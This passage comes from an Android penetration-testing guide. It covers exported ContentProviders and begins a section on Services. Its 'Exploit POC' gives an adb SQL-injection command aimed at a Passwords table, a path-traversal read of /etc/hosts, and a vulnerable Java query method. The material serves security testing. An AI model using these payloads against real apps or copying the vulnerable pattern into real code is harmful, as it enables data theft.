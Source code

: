 ***

## **`ContentProviders`**

**Definition**:\
`ContentProviders` handle structured data sharing between applications. They are vulnerable to SQL Injection or Path Traversal if insecurely implemented.

**Testing**:

1. Check `AndroidManifest.xml` for `android:exported="true"`.
2. Review `query`, `insert`, `update`, and `delete` methods for sanitization.
3. Inspect URI handling logic for traversal issues.

*   Example **AndroidManifest.xml**:

    ```xml
    <provider android:exported="true" android:name=".MyContentProvider" />
    ```

**Exploit POC**:

1.  **SQL Injection**:

    ```bash
    content query --uri content://<authority>/Passwords --projection "* FROM Key--"
    ```
2.  **Path Traversal**:

    ```bash
    content read --uri content://<authority>/../../../../etc/hosts
    ```
3.  Example **Java Code**:

    ```java
    @Override
    public Cursor query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) {
        return db.query("table", projection, selection, selectionArgs, null, null, sortOrder);
    }
    ```

***

## **`Services`**

**Definition**:\
Services run background operations. Exported services can expose sensitive operations to external triggers.

**Testing**:

1. Check `AndroidManifest.xml` for `android:exported="true"`.
2. Review service methods for sensitive actions triggered by incoming intents.

*   Example **AndroidManifest.xml**:
